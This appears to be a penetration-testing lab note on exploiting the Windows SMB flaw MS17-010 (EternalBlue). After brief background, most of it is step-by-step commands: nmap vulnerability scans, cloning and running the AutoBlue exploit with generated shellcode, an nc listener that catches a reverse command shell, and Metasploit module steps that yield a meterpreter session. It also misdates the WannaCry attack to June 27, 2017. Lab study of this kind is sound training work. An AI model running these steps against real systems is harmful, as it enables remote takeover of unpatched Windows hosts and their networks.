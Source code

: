 #### Exploiting Windows MS17-010 SMB Vulnerability( Eternal Blue)
- EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerability and exploits that allow attacker to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
- The EternalBlue exploit was developed by the NSA(National Security Agency) to take advantages of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017
- The EternalBlue exploit takes advantages of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27,2017 ot exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
##### The vulnerability affects multiple version of windows
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows 8.1
- Windows Server 2012
- Windows 10
- Windows server 2016
  
#### Exploit Process
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems
- The EternalBlue exploit module can be used to exploit vulnerable windows systems and consequently provide us with a privileged meterpreter sessions on the target system
- In addition to MSF modules,we can also manually exploit the vulnerability by utilizing publicly available exploit code.
#### Lab environment
- sudo nmap -sV -p 445 -O 10.10.10.12 [ this confirm the smb and windows server is running or not]
- sudo nmap -sV -P 445 --script=smb-vuln-ms17-010 10.10.10.1 [ this script ensures if the target is vulnerable for eternalblue or not]
  
#### AutoBlue exploit
- git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
- cd AutoBlue-MS17-010
- pip install -r requirements.txt 
- cd  shellcode
- chmod +x shell_prep.sh
- ./shell_prep.sh
- this script need to set different permissions,lhost,lport,etc
- this will generate two files in current directory [sc_x64_msf.bin,sc_x86_msf.bin]
- nc -nlvp 1234 [ start listener in new terminal new tab,port must be same when generating shell]
- chmod +x eternalblue_exploit8.py [give executable permissions]
- python eternalblue_exploit8.py 10.10.10.12 shellcode/sc_x64.bin
- this will give us a cmd prompt in listener terminal

#### msf module
- search eternalblue
- use exploit/windows/smb/ms17_010_eternalblue
- set everything requires
- run
- this give us meterpreter session


